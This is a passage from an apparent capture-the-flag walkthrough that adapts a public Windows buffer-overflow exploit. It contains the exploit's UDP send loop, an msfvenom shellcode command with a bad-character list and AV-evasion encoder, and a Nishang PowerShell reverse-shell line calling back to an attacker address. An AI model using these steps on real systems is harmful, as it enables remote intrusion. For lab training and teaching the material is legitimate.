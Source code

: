 ```python
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

As you can see, the shellcode provided is designed to open `calc.exe`, and won't work for our case. We'll need to create our own shellcode and inject it into the code. However, we'll need to examine the MSFVenom command they used, in order to know what we need for our shellcode. Let's dig into their command below.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

- The `-p windows/exec CMD=calc.exe` options specifies the Windows executable payload. The `CMD=calc.exe` setting simply tells the payload to open `calc.exe` on the target.
- The `-e x86/unicode_mixed` options specifies to use the `x86/unicode_mixed` encoder for avoiding AV detection. The option `BufferRegister=EAX` tells the encoder to use the EAX memory location in the targeted application, as the beginning of our code.
- the `-b` option, followed by the long string of hex characters, is the listing of bad characters, that will prevent our exploit from running correctly. We'll need to copy this list to our command, to avoid any of the included characters.
- The `-f python` command tells MSFVenom to output the code in a Python format, for inclusion in a script.

The original exploit code also includes the below line, which gives us a bit of a limit of 1152 bytes for the payload size. Any payload larger then 1152 bytes will not work.

```python
p += buf + "A" * (1152 - len(buf))
```

Since we're likely targeting a newer (>= Windows 7) Windows box, we can assume that Powershell is available on the target. Powershell is always preferable to a regular `cmd.exe` session, as it gives more options for enumeration and scripts. We can re-use the original MSFVenom command from the exploit, and simply redirect it to a Powershell command that will download our reverse shell PS1 script, and execute it. 

We can use the `Invoke-PowerShellTcp.ps1` script from the Nishang repository for our reverse shell. We'll need to copy it locally first to our working directory, and add the below line to the bottom of the existing script. This will ensure that the command we place is executed automatically, and the functions aren't just loaded into memory. Also, we can rename the file to `revshell.ps1` to make it easier to type.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 7500
```

